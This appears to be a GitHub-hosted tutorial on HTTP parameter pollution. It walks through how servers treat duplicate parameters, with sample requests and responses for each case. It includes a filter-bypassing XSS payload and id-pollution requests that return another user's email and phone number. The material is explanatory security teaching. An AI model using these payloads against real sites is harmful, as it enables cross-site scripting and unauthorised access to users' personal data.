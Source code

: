## Anatomy of Parameter Pollution :
The manipulation of the value of each parameter depends on how each web technology is parsing these parameters. Some web technologies parse the first or the last occurrence of the parameter, some concatenate all the inputs and others will create an array of parameters.

<p align="center">
  <img 
    width="600"
    height="700"
    src="https://user-images.githubusercontent.com/63053441/159308061-dd00ec1d-bc07-406f-9e19-7a654ff4af54.png"
  >
</p>

## 1 - All occurrences of specific parameter :
  This means that if we parse the same name parameters like q=hello&q=”><svg/onload=alert(1)> the check will be performed on both the parameters because they have the same name. In All occurrences, the barrier is if the back-end logic is configured to allow a specific parameter only 1 time then appending another parameter (q=hello&q=”><svg/onload=alert(1)>) of same name will give you an error.

<br></br>
Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100&id=101
```
Response :
```
HTTP/1.1 403
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100,101
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":"yourmail@gmail.com","phoneNumber":+91-9999999999,"email":"victim@gmail.com","phoneNumber":+91-8888888888

}
```

## 2 - First occurrence :
  First occurrence means a web application performs input validation on the first parameter which makes it vulnerable to second parameter which should be of same name.

Request :
```
GET /search?q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
Response :
```
HTTP/1.1 403 Forbidden
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
GET /search?q=Hello&q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private
```
In the above mentioned polluted request only the first occurrence (q=Hello) is checked and the last occurrence (q=”><svg/onload=alert(1)>) is not sanitized which means it will trigger XSS.


## 3 - Last occurrence :
  Last occurrence means a web application performs input validation on the last parameter which makes it vulnerable to first parameter which should be of same name.
  
Request :
```
GET /search?q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
Response :
```
HTTP/1.1 403 Forbidden
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
GET /search?q="><svg/onload=alert(1)>&q=Hello HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private
```
In the above mentioned polluted request only the last occurrence (q=Hello) is checked and the first occurrence (q="><svg/onload=alert(1)>) is not sanitized which means it will trigger XSS.

## 4 - Becomes an array :
  Becomes an array means whatever the input is sent from the client side the server parsed it into an array and displays it. Which means the parameter which you are polluting has an array as datatype, which is also the most vulnerable.
  
Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100
```
Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":["yourmail@gmail.com"],"phoneNumber":[+91-9999999999]

}
```
HTTP Parameter Pollution Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100&id=101
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":["yourmail@gmail.com","victim@gmail.com"],"phoneNumber":[+91-9999999999,+91-8888888888]

}
```
### Refrences: https://shahjerry33.medium.com/parameter-pollution-zero-day-3feb86ee8a02
